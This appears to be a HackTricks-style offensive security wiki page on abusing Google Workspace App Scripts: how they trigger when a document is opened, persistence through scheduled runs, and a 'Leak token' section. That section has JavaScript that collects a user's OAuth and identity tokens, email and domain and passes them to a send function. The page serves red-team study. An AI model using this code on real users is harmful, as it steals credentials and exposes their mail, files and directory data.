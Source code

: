 # GWS - App Scripts

{{#include ../../../banners/hacktricks-training.md}}

## App Scripts

App Scripts is **code that will be triggered when a user with editor permission access the doc the App Script is linked with** and after **accepting the OAuth prompt**.\
They can also be set to be **executed every certain time** by the owner of the App Script (Persistence).

### Create App Script

There are several ways to create an App Script, although the most common ones are f**rom a Google Document (of any type)** and as a **standalone project**:

<details><summary>Create a container-bound project from Google Docs, Sheets, or Slides</summary></details>

<details><summary>Create a standalone project</summary></details>

<details><summary>Create a standalone project from Google Drive</summary></details>

<details><summary>Create a container-bound project from Google Forms</summary></details>

<details><summary>Create a standalone project using the clasp command line tool</summary></details>

## App Script Scenario <a href="#create-using-clasp" id="create-using-clasp"></a>

### Create Google Sheet with App Script

Start by crating an App Script, my recommendation for this scenario is to create a Google Sheet and go to **`Extensions > App Scripts`**, this will open a **new App Script for you linked to the sheet**.

### Leak token

In order to give access to the OAuth token you need to click on **`Services +` and add scopes like**:

- **AdminDirectory**: Access users and groups of the directory (if the user has enough permissions)
- **Gmail**: To access gmail data
- **Drive**: To access drive data
- **Google Sheets API**: So it works with the trigger

To change yourself the **needed scopes** you can go to project settings and enable: **`Show "appsscript.json" manifest file in editor`.**

```javascript
function getToken() {
  var userEmail = Session.getActiveUser().getEmail()
  var domain = userEmail.substring(userEmail.lastIndexOf("@") + 1)
  var oauthToken = ScriptApp.getOAuthToken()
  var identityToken = ScriptApp.getIdentityToken()

  // Data json
  data = {
    oauthToken: oauthToken,
    identityToken: identityToken,
    email: userEmail,
    domain: domain,
  }

  // Send data
  makePostRequest(data)
```